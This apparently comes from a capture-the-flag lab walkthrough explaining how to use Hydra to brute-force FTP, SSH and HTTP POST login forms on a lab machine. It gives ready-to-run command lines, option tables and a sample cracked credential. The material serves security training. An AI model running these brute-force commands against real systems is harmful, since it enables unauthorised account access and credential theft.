 # hydra

---

## Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being `passlist.txt`, we’d use the following command:

`hydra -l user -P passlist.txt ftp://10.10.202.104`
For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).


## SSH

`hydra -l <username> -P <full path to pass> 10.10.202.104 -t 4 ssh`

| Option | Description                            |
| ------ | -------------------------------------- |
| `-l`   | specifies the (SSH) username for login |
| `-P`   | indicates a list of passwords          |
| `-t`   | sets the number of threads to spawn    |

For example, `hydra -l root -P passwords.txt 10.10.202.104 -t 4 ssh` will run with the following arguments:

   - Hydra will use root as the username for ssh
   - It will try the passwords in the passwords.txt file
   - There will be four threads running in parallel as indicated by -t 4


## Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

`sudo hydra <username> <wordlist> 10.10.202.104 http-post-form "<path>:<login_credentials>:<invalid_response>"`

| Option                | Description                                                                              |
| --------------------- | ---------------------------------------------------------------------------------------- |
| `-l`                  | the username for (web form) login                                                        |
| `-P`                  | the password list to use                                                                 |
| `http-post-form`      | the type of the form is POST                                                             |
| `<path>`              | the login page URL, for example, `login.php`                                             |
| `<login_credentials>` | the username and password used to log in, for example, `username=^USER^&password=^PASS^` |
| `<invalid_response>`  | part of the response when the login fails                                                |
| `-V`                  | verbose output for every attempt                                                         |


Below is a more concrete example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> 10.10.202.104 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

   - The login page is only `/`, i.e., the main IP address.
   - The `username` is the form field where the username is entered
   - The specified username(s) will replace `^USER^`
   - The `password` is the form field where the password is entered
   - The provided passwords will be replacing `^PASS^`
   - Finally, `F=incorrect` is a string that appears in the server reply when the login fails

Example:

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.202.104 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

`[80][http-post-form] host: 10.10.202.104   login: molly   password: sunshine`